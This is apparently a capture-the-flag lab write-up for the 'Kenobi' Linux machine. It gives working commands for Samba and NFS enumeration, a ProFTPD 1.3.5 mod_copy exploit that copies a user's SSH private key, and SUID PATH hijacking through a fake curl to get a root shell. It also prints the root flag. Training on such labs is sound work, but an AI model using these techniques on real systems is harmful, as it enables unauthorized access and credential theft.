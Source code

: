 ﻿## Kenobi
- Exploiting a Linux machine. 
- Enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation 

### Reconnaissance
 With nmap scan found below ports are open and running services 

    nmap 10.10.143.1 -vvv 
    PORT     STATE SERVICE      REASON
    21/tcp   open  ftp          syn-ack
    22/tcp   open  ssh          syn-ack
    80/tcp   open  http         syn-ack
    111/tcp  open  rpcbind      syn-ack
    139/tcp  open  netbios-ssn  syn-ack
    445/tcp  open  microsoft-ds syn-ack
    2049/tcp open  nfs          syn-ack

### Samba 
Samba allows end users to access the files, printers and commonly shared resources on the intra and internet. Often referred as Network File System. 
It is based on *common client/server protocol of Server Message Block (SMB)*. 
**Note**: SMB is developed only for Windows, so without Samba other than Windows platforms would be isolated in the network.  
 
The server has Samba running, so enumerating for shares 

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.143.1

Found below user names and their paths: 
guest - C:\tmp 
anonymous - C:\home\kenobi\share
print  - \var\lib\samba\printers

There is a log.txt file under anonymous which contains SSH, FTPd and other information.


    nmap  -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.48.174 
         
    PORT    STATE SERVICE
    111/tcp open  rpcbind
    | nfs-showmount: 
    |_  /var *

The `/var` location is available to mount. 

### Exploiting the FTP service
With a simple netcat, we can connect to FTPd service and get the version it is running.

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]

From above, we can see the proFTPD is running on 1.3.5 version.

Lets see if there are any available exploits:

    searchsploit proftpd 1.3.5
    --------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                     |  Path
    --------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                          | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                                                          | linux/remote/36742.txt
    --------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
Using the mod copy exploit, we can copy the private key that we see in the log.txt to a location where we can access:

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]
    
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful
Mount the /var on our system to access the file:

    sudo mount 10.10.48.174:/var /mnt/kenobiNFS/

Copy the mnt/kenobiNFS/tmp/id_rsa to a directory and then ssh into the server

    ssh -i id_rsa kenobi@10.10.48.174

### Privilege Escalation  

Finding any abnormal files with SUID bit:

    find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
    -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6

From the above, we can see the `/usr/bin/menu` seems a custom program and lets see if we can do any on this. 

The functionality of this custom program seems checking  web connection using `curl`, kernel version and ip status using `ifconfig`.

    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :1
    HTTP/1.1 200 OK
    Date: Mon, 29 Jun 2020 22:38:57 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
    ETag: "c8-591b6884b6ed2"
    Accept-Ranges: bytes
    Content-Length: 200
    Vary: Accept-Encoding
    Content-Type: text/html
    
    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :2
    4.8.0-58-generic
    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :3
    eth0      Link encap:Ethernet  HWaddr 02:29:8f:02:e1:de  
              inet addr:10.10.96.188  Bcast:10.10.255.255  Mask:255.255.0.0
              inet6 addr: fe80::29:8fff:fe02:e1de/64 Scope:Link
              UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
              RX packets:2405 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2269 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1000 
              RX bytes:155505 (155.5 KB)  TX bytes:3081289 (3.0 MB)
    
    lo        Link encap:Local Loopback  
              inet addr:127.0.0.1  Mask:255.0.0.0
              inet6 addr: ::1/128 Scope:Host
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:214 errors:0 dropped:0 overruns:0 frame:0
              TX packets:214 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1 
              RX bytes:15541 (15.5 KB)  TX bytes:15541 (15.5 KB)

- Using the environment variable manipulation we can manipulate the command to execute with our custom command. 
- As the "status check" is using the curl command, we create a dummy curl file  `/tmp/curl` which executes `/bin/sh`. The path `/tmp` will be added to start of the `PATH` variable.  When a binary is called, it will  always check from left to right and our `/tmp/curl` will be picked up. 
- As `/usr/bin/menu` has the effective user as root, our command will get execute with root which in turn spawns a root shell. 
- 

    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 755 curl
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
    kenobi@kenobi:/tmp$ echo $PATH
    /tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
    kenobi@kenobi:/tmp$ /usr/bin/menu 
    ***************************************
    1. status check
    2. kernel version
    3.  ifconfig
    ** Enter your choice :1
     # id
    uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare) 

### CTF
The flag in /root/root.txt is `177b3cd8562289f37382721c28381f02`


